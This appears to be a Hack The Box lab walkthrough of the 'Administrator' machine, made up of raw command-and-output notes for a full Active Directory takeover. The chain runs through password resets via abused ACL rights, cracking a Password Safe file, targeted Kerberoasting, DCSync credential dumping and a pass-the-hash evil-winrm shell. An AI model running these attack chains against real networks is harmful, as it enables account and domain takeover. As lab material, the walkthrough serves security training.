

# Administrator

sudo nmap -sCV 10.129.15.208
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-17 19:02 EDT
Nmap scan report for 10.129.15.208
Host is up (0.018s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-18 06:02:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-06-18T06:02:46
|_  start_date: N/A
|_clock-skew: 7h00m00s

cat /etc/hosts
127.0.0.1	localhost

# The following lines are desirable for IPv6 capable hosts

::1	localhost	ip6-localhost	ip6-loopback
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
127.0.1.1	pwnbox7.1
127.0.1.1	[htb-x6ii6ja0me.htb-cloud.com](http://htb-x6ii6ja0me.htb-cloud.com/)	htb-x6ii6ja0me

127.0.0.1 localhost
127.0.1.1 htb-x6ii6ja0me [htb-x6ii6ja0me.htb-cloud.com](http://htb-x6ii6ja0me.htb-cloud.com/)
10.129.15.208 administrator.htb

ftp anonymous@administrator.htb
Connected to administrator.htb.
220 Microsoft FTP Service
331 Password required
Password:
530 User cannot log in.
ftp: Login failed
ftp> exit
221 Goodbye.

anonymous ftp not allowed

Username: Olivia Password: ichliebedich

cme smb 10.129.15.208 -u 'olivia' -p 'ichliebedich' --users
SMB         10.129.15.208   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.15.208   445    DC               [+] administrator.htb\olivia:ichliebedich
SMB         10.129.15.208   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-

SMB         10.129.15.208   445    DC               Administrator                 2024-10-22 18:59:36 0       Built-in account for administering the computer/domain
SMB         10.129.15.208   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.15.208   445    DC               krbtgt                        2024-10-04 19:53:28 0       Key Distribution Center Service Account
SMB         10.129.15.208   445    DC               olivia                        2024-10-06 01:22:48 0

SMB         10.129.15.208   445    DC               michael                       2024-10-06 01:33:37 0

SMB         10.129.15.208   445    DC               benjamin                      2024-10-06 01:34:56 0

SMB         10.129.15.208   445    DC               emily                         2024-10-30 23:40:02 0

SMB         10.129.15.208   445    DC               ethan                         2024-10-12 20:52:14 0

SMB         10.129.15.208   445    DC               alexander                     2024-10-31 00:18:04 0

SMB         10.129.15.208   445    DC               emma                          2024-10-31 00:18:35 0

python3 [bloodhound.py](http://bloodhound.py/) -u olivia -p ichliebedich -c all --zip -d administrator.htb -ns 10.129.15.208

olivia has generic all over michael and is a member of the remote management users group

net rpc password michael hellothere -U administrator.htb/olivia%ichliebedich -S 10.129.15.208

cme smb 10.129.15.208 -u michael -p hellothere
SMB         10.129.15.208   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.15.208   445    DC               [+] administrator.htb\michael:hellothere

michael has ForceChangePassword over benjamin

net rpc password benjamin hellothere -U administrator.htb/michael%hellothere -S 10.129.15.208
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-x6ii6ja0me]─[~]
└──╼ [★]$ cme smb 10.129.15.208 -u benjamin -p hellothere --shares
SMB         10.129.15.208   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.15.208   445    DC               [+] administrator.htb\benjamin:hellothere

benjamin is a member of share moderators group

└──╼ [★]$ ftp benjamin@administrator.htb
Connected to administrator.htb.
220 Microsoft FTP Service
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||55069|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> binary
200 Type set to I.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||55071|)
125 Data connection already open; Transfer starting.
100% |***********************************|   952       67.92 KiB/s    00:00 ETA
226 Transfer complete.
952 bytes received in 00:00 (67.36 KiB/s)
ftp> exit
221 Goodbye.
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-x6ii6ja0me]─[~]
└──╼ [★]$ file Backup.psafe3
Backup.psafe3: Password Safe V3 database

hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt.gz

Backup.psafe3:tekieromucho

sudo apt install passwordsafe -y
pwsafe Backup.psafe3

db loot 

alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw

emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb

emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur

└──╼ [★]$ cme smb 10.129.15.208 -u alexander -p UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
SMB         10.129.15.208   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.15.208   445    DC               [-] administrator.htb\alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw STATUS_LOGON_FAILURE
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-x6ii6ja0me]─[~]
└──╼ [★]$ cme smb 10.129.15.208 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
SMB         10.129.15.208   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.15.208   445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-x6ii6ja0me]─[~]
└──╼ [★]$ cme smb 10.129.15.208 -u emma -p WwANQWnmJnGV07WQN8bMS7FMAbjNur
SMB         10.129.15.208   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.15.208   445    DC               [-] administrator.htb\emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur STATUS_LOGON_FAILURE

only emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb is valid

emily has GenericAll over ethan

impacket.krb5.kerberosv5.KerberosError: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-x6ii6ja0me]─[~/targetedKerberoast]
└──╼ [★]$ sudo ntpdate 10.129.15.208
2026-06-18 03:00:32.378793 (-0400) +25201.216700 +/- 0.006973 10.129.15.208 s1 no-leap
CLOCK: time stepped by 25201.216700
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-x6ii6ja0me]─[~/targetedKerberoast]
└──╼ [★]$ python3 [targetedKerberoast.py](http://targetedkerberoast.py/) -v -d 'administrator.htb' -u 'emily' -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$29606e344c4814489bce7815e967a269$4b9924bd070c98546c732dfaf617fbf8d68a108ac0c4e8570e4ed2d54336eff686755f2d056f713c1a3dc651ef0046605474332545f07be3141d158c8ee45e4ff07654e55faa36f5473866f333d7ad07ad82a2b07d590c14d2319ae4e87ef9fb1c207ce0f4192b24cac3e7687fb7ce7605a57f76c6f7ae72502a9c2d52256d4a78957b9664c0d2697c5a3027d720b4d0da734b453b073433bf35f2d391e0a0bcfd07807c9614b0c94d0f60b9f7c48944952aa0e35d4a853c61df1a4bc87a31971f4109cb6efdf23334e2b47c4e06328470effcb0b4bd843c8fc7a1738daab983065996ef2314db4fae99a13b517f0119ab738752215e6e383a1f55ac73f1d7e29cf3a49600afc1982b2fd8e8c13611c5c9f5a44f9a549593e7140d0af36b62fcb72604be77dc6f6be3a4fc572a75eb70f5b93bd64cca5126e006e775698a5445eda0656224fcb46c224d7f7e98c4566e530cae3bc26361cb5dad2d5c08c93257a4c64dc0f60c0125477510e7a76882dfa1b47eb7e1f0700d84cd20172ee1cbca2284f61644e1e10a4456574a68b1fc02e4705b87a11850b5272393b7e2ce862ad92288838619c388e60ddb6ab1cec8eda1c7750d4e51bfde9474e83e02b09245c1f1ed45fe4de135799aef9a1cf1da5b677f77a7cf5bc9be8af92be8e11afe86429db866bfc4cd7756ce22cfc67c9b253e3d72ef76de706bd0c0e96e6a17d4ad2665be95ca4f0ed49335ea8d1280f49c36dc97f5513d0068004790b4678dfed972fc3fe7b7fbcea5444741b50c7b01df66b2071f5e666e670e6ab949ee56ccbb5046d9bcc8bbb596d269e5718f3a34e1f48fdef737641545da746738749fe69f6b11252e7975c69860030047670b7bd1e619634f7349ce263742e6a86f797745846ee694986c022a179bb2b438b3ceaf9314c06f921e6affc18c28b18cb592bb155b82f45d40a381f63d71dd7056f5459b75ece3f90cdbdc2e61ed165749b7968d08d38ff02120112d0182df10c1bf5a7069b9694b3bec78347eb1034c18e2338a55170f74a1e044ebc340cc379c6fc1678edf2b863630829d64749c738499151eefeabb64d95ee11ba8a8ada4db8a4734ca06fc9724c1393746e077df9f2f40015633d62889c5523b8d289b8a5accfb1cb345e16ccbcb5b5f2be41f556585d980ad4ac46bea221408903408462c5b754b8b85c490d8424bdb8fb4da66d0ea41f0784d8f421745c58a7807beb0aaa88c7231dbaa03b0072d5ceaaf7a7c6643826520ee50ddf161d91300b784849db6673a2f9950c23620c9943679e532f6cdd61f6ab38ea13c08ee3ff8eadb064f0f5fae8bac3075f5d25c69d35d25ea1ad3cc00f36420fc6b890a8e45e601a9d1f0a611c08cc380b8e8b623568e608585eec62ec40647234153cff6cbc078f555f3d11c4d86f32485b3de1895a00ce38d2b825340d9338f6e322bf87f14e9432ae56da32d91100e9699c89cba3e3b6edef2efec040d8e9d075868c182c1918dc92b7e3baa10945022b45fce120f098c2e86
[VERBOSE] SPN removed successfully for (ethan)

sudo hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt.gz

ethan:limpbizkit

ethan can DCSync

impacket-secretsdump administrator.htb/ethan:limpbizkit@administrator.htb -dc-ip 10.129.15.208 -just-dc-user Administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385

evil-winrm -H 3dc553ce4b9fd20bd016e098d2d2fd2e -u administrator -i 10.129.15.208

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: [https://github.com/Hackplayers/evil-winrm#Remote-path-completion](https://github.com/Hackplayers/evil-winrm#Remote-path-completion)

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> Desktop
The term 'Desktop' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1

- Desktop
- `+ CategoryInfo : ObjectNotFound: (Desktop:String) [], CommandNotFoundException + FullyQualifiedErrorId : CommandNotFoundException`

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
6ecfadc1a5563a58b698afec5e4fedc2